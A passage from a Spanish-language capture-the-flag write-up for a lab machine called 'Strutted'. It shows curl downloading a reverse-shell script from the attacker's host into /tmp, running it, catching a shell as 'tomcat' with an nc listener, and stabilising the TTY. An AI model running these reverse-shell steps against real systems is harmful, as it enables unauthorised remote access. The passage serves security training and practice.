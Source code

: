 Utilizaremos el comando `curl` para solicitar el archivo y lo guardaremos en una ruta a la que tengamos capacidad de escritura, como `/tmp`

~~~ bash
curl http://10.10.14.212/revshell.sh -o /tmp/revshell
~~~

En nuestro servidor HTTP recibiremos un GET al archivo `revshell` 

~~~ bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.59 - - [19/Apr/2025 14:43:20] "GET /revshell HTTP/1.1" 200 -
~~~

Pondremos un puerto a la escucha para recibir la `shell`, por ejemplo el `443`. Y enviaremos el siguiente comando al servidor

~~~ bash
bash /tmp/revshell
~~~

Luego de ejecutar el comando en el servidor recibiremos la `shell` como el usuario `tomcat`

~~~ bash
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.212] from (UNKNOWN) [10.10.11.59] 35966
bash: cannot set terminal process group (1052): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@strutted:~$ whoami
whoami
tomcat
tomcat@strutted:~$ 
~~~
<br>


# Escalada de Privilegios
---
## TTY Treatment

Haremos un tratamiento de la TTY para poder tener una consola más cómoda, de forma que podamos hacer `Ctrl + C` sin que la shell se vaya pal carajo y `Ctrl + L` para limpiar la pantalla

~~~ bash
tomcat@strutted:~$ script /dev/null -c bash                                             
Script started, output log file is '/dev/null'.
tomcat@strutted:~$ ^Z
[1]  + 12077 suspended  nc -lvnp 443
root@parrot strutted # stty raw -echo; fg      
[1]  + 12077 continued  nc -lvnp 443
                                    reset xterm

tomcat@strutted:~$ export TERM=xterm
~~~
